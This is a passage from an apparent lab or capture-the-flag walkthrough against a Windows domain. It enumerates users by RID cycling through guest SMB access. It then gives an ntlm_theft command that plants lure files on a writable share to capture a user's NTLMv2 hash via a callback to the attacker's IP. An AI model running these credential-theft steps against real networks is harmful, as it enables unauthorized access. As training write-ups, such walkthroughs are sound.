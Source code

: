 ![efaf51a807fc8d8bc7c0cf8bcc399fc7.png](/resources/efaf51a807fc8d8bc7c0cf8bcc399fc7.png)

I use RID cycling method to see if i can pull user list on this domain and sure enough, I can since I can use guest account to access SMB share so RPC can be used for this method.

![3c21d9374d898d65294470d1cd9df20b.png](/resources/3c21d9374d898d65294470d1cd9df20b.png)

## Obtaining Julia.Wong credential with ntlm_theft

Since guest account have write permission on the `share` share so I will use [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) to create files for NTLMv2 callback/NTLMSSP authentication.
```
python ntlm_theft.py -s 10.10.14.24 -f newpolicy -g all
```
![b609212f9c4546066d986d37c22a8f35.png](/resources/b609212f9c4546066d986d37c22a8f35.png)
